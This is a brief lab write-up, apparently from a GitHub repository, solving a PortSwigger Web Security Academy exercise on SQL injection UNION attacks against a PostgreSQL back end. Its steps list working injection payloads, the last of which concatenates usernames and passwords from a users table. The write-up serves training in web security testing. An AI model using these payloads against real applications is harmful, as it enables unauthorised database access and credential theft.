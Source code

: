 # SQL Injection - Retrieving multiple values in a single column

## 📌 Lab Details
- **Title**: Using UNION attack for retrieving multiple values in a single column.
- **Difficulty**: Practitoner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/7c96fa50c7c53c9f9c96467a8b9e76f070dafcf9bfdcc4f04fc786ef0b0819d2?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-retrieve-multiple-values-in-single-column

## 🔍 Summary
This lab demonstarted how SQL can be used to retrieve multiple values in a single column.

## 🛠 Steps to Solve
1. Injecting `'+UNION+SELECT+NULL,'abc'--` to determine the number of columns, and which column contains text.
2. Injecting `'+UNION+SELECT+NULL,+version()--` to determine that `PostgreSQL` is being used.
3. Injecting `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` to retrieve the contents of the `users` table.
   
## 📖 Key Takeaways
- Using `version()` to determine which database is being used.
- Using `'foo'||'bar'` to concatenate two strings.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/2c226c21-fab8-47bf-8a82-b6a4f2cc8ae6)
![image](https://github.com/user-attachments/assets/d65d8a9e-7dfd-4d91-bd4a-3bb939c33e58)
![image](https://github.com/user-attachments/assets/f8b10694-9845-4c23-811a-97fe018546c7)
![image](https://github.com/user-attachments/assets/5a0418f2-bd8a-4d52-be9d-24d91abcecee)
